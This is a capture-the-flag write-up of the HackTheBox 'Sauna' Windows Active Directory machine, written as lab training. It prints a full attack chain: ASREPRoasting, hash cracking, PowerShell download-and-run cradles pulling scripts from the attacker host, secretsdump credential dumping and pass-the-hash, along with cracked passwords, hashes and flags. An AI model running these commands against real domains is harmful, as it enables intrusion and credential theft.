# HackTheBox – Sauna

- Write-Up Author: [Calvin Lai](http://security.calvinlai.com)

## **Question:**
> Sauna



## Background

Sauna is an easy difficulty Windows machine from HacktheBox,  it requires on the Active Directory enumeration technique and Kerberos attack, for training your ethical hacking skills and penetration testing skills.

Possible usernames can be found on the website that can be used on an ASREPRoasting attack. A password hash is found and the plaintext password was recovered by an offline brute force attack. This user credential is able to WinRM to the box. 

Running WinPEAS reveals the possible path for the Privilege Escalation (PE), the result shows that there a system user has been configured to automatically log in and this user has Windows remote management permissions. 

130n@calvinlai.com

Target Machine: 10.10.10.175 

Attacking (Hacker) machine: 10.10.14.15

## Penetrating Methodology

Service Scanning
- Nmap

Enumeration
- Nikto
- Dirb
- ldapsearch
- ```nmap -p 88 --script krb5-enum-users```
- ```nmap -p 389 --script ldap-rootdse```
- GetNPUsers.py

Exploitation
- WinRM
- ASREPRoasting Attack
- DCSync Attack

Getting Less Privilege Shell
- PtH Attack
- Windows-Exploit-Suggester

## Write up
### 1. Service Scanning

The target machine IP is 192.168.187.134. Get a basic understanding the available services of the target machine using nmap aggressive scanning to all available ports.

- Details Analysis

```nmap -n -sV -vv --open -Pn -p- -A --reason -oN nmap.txt sauna.htb```



- Enumeration strategies

1. Check Website Vulnerability  
2. Check any hidden files/folders of the website
3. Check SMB

***
### 2. Enumeration:
1. Strategy 1 Check Vulnerability

Nikto -- no vulnerability can be abused to bypass authentication.



2. Strategy 2 Check any hidden files/folders of the website

Cannot found any hidden files or folder of this website

```python3 /root/Documents/ctf/tools/dirsearch/dirsearch.py -u http://192.168.187.134/ -e php,txt -x 301,302,403,404 --simple-report=mrRobot.dirsearch```



3. LDAP

```nmap -p 389 --script ldap-rootdse sauna.htb```

Got some domain's background information
**CN=Aggregate,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL**



```nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.local' sauna.htb```



Using the ```ldapsearch -x -h sauna.htb -b "DC=EGOTISTICAL-BANK,DC=local", a user "Hugo Smith" account was found```





***
### 3. Get Low Privilege Access:

According to the domain account found above, the login id would be a combination of the user name found at the "Meet The Team" page.

The possible combination of the user name list was created below and saved at the users.txt

```
fergussmith,fsmith,ferguss
shauncoins,scooin, shaunc
hugobear,hbear, hugob
bowietaylor,btaylor, bowiet
sophiedriver,sdriver, sophied
stevenkerb,skerb,stevenk
```

I was thinking that would it be an [ASREPRoasting attack](https://calvin-lai.gitbook.io/calvin-lai-security/tools/04-windows-enum-and-exploit/09-kerberos-attack#asreproast). Using Impacket's [GetNPUser](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to extract a hash from my prepared user accounts list that did not require pre-authentication. 

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -no-pass -outputfile getNPUsers.result -dc-ip sauna.htb
```



It returned a hash for the user **fsmith** Selected the krb5asrep as the format of hash mode for the ASREPRosating,  

```john fsmith.tgt -format:krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt```



The password of this user account **"fsmith"** was **"Thestrokes23"**

Using the obtained credentials fsmith/Thestrokes23 to access the system

SMB Map
```smbmap -u fsmith -p Thestrokes23 -H sauna.htb -R```



Windows Remote Management (WinRM) 

It is a Windows built-in remote management protocol that was enabled by default. Using the [evil-winrm](https://github.com/Hackplayers/evil-winrm) to connect to the system

```evil-winrm.rb -u fsmith -p Thestrokes23 -i sauna.htb```





The user.txt file was found in the Desktop folder.

>1b5520b98d97cf17f24122a55baf70cf

***
### 4. Privilege Escalation:

- Enumerating users

After gaining the initial access of the machine, a svc_loanmgr account was found under the c:\Users folder but the current account did not have access rights to read the folder









- Enumerating the environment

The missing software patches for local privilege escalation vulnerabilities was not found using the [Sherlock.ps](https://github.com/rasta-mouse/Sherlock) script

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15:8888/Sherlock.ps1'); Find-AllVulns -Command 'start powershell.exe'"```

Enumerating with the Powershell Privilege Escalation Enumeration Script [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum/)

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15:8888/WindowsEnum.ps1');```
The password of svc_loanmanager was found



According to the net user result above, this user was under the Remote Management Users group. Using the evil-winrm again to login 

```/root/Documents/ctf/tools/win/evil-winrm/evil-winrm.rb -u svc_loanmgr -p Moneymakestheworldgoround! -i sauna.htb```



As this user svc_loanmgr was in the user group NTLM Authentication, tried to reveal the dump the NTLM hashes using the Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```/usr/share/doc/python3-impacket/examples/secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'```



The hash of the adminstrator was extracted, tried the Pass The Hash attack using the [pth-winexe](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
**Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::***



Tried to connect with winrm again using the password hash

```
/root/Documents/ctf/tools/win/evil-winrm/evil-winrm.rb -u administrator --hash 500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff -i 10.10.10.175
```



> f3ee04965c68257382e31502cc5e881f

***
### 5. Conclusion:

一開始getnpuser dump到hash是因為剛好fsmith呢個user個account有check到not required kerberos pre authentication，所以可以用呢個account來gen ticket dump到個hash，又剛好個account用weak password破解到，所以羅到user
root就svc_loanmgr呢個service account讀到ad個db，所以dump到個db羅曬hash
by default not required kerberos authentication係無check到的，一般是app唔support kerberos，所以要check

- Lesson Learn

1. The vulnerability occurs when the “Do Not Require Pre-authentication” box is ticked within Users



2. Weak password policy is in place

***
### 6. Reference Link

https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

https://gracefulsecurity.com/kerberos-preauthentication-and-party-tricks/

https://download.microsoft.com/download/7/7/a/77abc5bd-8320-41af-863c-6ecfb10cb4b9/mitigating%20pass-the-hash%20(pth)%20attacks%20and%20other%20credential%20theft%20techniques_english.pdf
